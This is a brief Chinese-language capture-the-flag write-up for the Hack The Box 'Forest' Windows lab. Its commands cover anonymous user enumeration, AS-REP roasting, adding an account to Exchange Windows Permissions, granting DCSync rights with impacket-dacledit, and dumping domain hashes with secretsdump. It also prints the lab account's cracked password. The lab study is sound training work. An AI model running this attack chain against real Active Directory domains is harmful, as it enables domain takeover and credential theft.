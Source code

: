 ```yaml
---
title: Forest
weight: 212
tags:
  - windows
  - easy
  - asreproast
  - dcsync
---
```



## 1. 信息收集


[[389,636,3268,3269 - LDAP]]，发现可以匿名访问

```bash
nxc smb 10.10.10.161 -u '' -p '' --users 
```

[[ASREPRoast]] 攻击，拿到`svc-alfresco`账户的TGT，爆破得到密码

使用该账户 [[RustHound]] 收集数据

根据结果：

将指定用户添加到指定组

```bash
net rpc group addmem "Exchange Windows Permissions" "svc-alfresco" -U "htb.local"/"svc-alfresco"%"s3rvice" -S "forest.htb.local"
```


验证是否加入成功

```bash
net rpc group members "EXCHANGE WINDOWS PERMISSIONS" -U "htb.local"/"svc-alfresco"%"s3rvice" -S "forest.htb.local"
```

给自己写入DCSync ACL

```bash
impacket-dacledit -action 'write' -rights 'DCSync' -principal 'svc-alfresco' -target-dn 'DC=HTB,DC=LOCAL' -dc-ip 10.10.10.161 'htb.local'/'svc-alfresco':'s3rvice'
```

[[DCSync]]

```bash
impacket-secretsdump 'htb.local'/'svc-alfresco':'s3rvice'@'forest.htb.local' 
```